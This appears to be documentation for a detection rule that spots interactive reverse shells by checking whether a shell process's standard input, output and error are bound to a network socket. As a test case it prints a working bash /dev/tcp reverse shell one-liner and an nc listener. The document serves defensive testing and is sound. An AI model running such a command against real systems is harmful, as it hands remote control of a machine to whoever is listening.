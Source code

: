 #### What is Monitored

Common shell processes (bash, sh, nc, python, etc.) where the standard input, standard output, and standard error file descriptors are all pointing to the same network socket.

#### Why it's Important

This is the classic signature of an interactive reverse shell, which is an attacker's primary tool for gaining remote, interactive control over a compromised machine.

#### Threats Detected:

-   Remote Code Execution.
-   Command & Control (C2) Channel.

#### How it's Monitored

The script uses the psutil library to iterate through running processes. For each suspicious process, it inspects its file descriptors in the /proc filesystem to see if they are linked to a socket, indicating a network connection is driving the shell.

#### Simple Test Case

```bash
# In one terminal, start a listener:
nc -l -p 9001
# In a second terminal, execute the reverse shell:
bash -i >& /dev/tcp/127.0.0.1/9001 0>&1
```

#### Limitations & False Positives

This detection is heuristic and may not detect more advanced or obfuscated reverse shells (e.g., those using encrypted C2 channels or custom-built tools).
While very rare, some legitimate applications might use I/O redirection in a way that mimics this pattern, which could lead to a false positive.
